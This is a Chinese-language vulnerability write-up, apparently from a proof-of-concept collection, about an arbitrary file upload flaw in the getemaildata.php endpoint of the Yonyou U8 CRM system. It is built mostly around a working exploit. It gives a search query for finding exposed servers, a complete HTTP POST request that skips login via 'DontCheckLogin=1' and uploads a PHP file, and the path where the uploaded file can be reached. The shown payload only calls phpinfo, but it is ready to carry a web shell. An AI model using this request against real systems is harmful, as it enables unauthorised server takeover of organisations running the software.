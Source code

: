 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

# 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器权限，攻击服务器

## 漏洞影响

用友 U8 CRM客户关系管理系统

## 网络测绘

```
web.body="用友U8CRM"
```

## 漏洞复现

登陆页面

![image-20230828151026882](images/image-20230828151026882.png)

验证POC

```
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![image-20230828151040826](images/image-20230828151040826.png)

访问文件，文件名需要十六进制减一

```
/tmpfile/updD24D.tmp.php
```

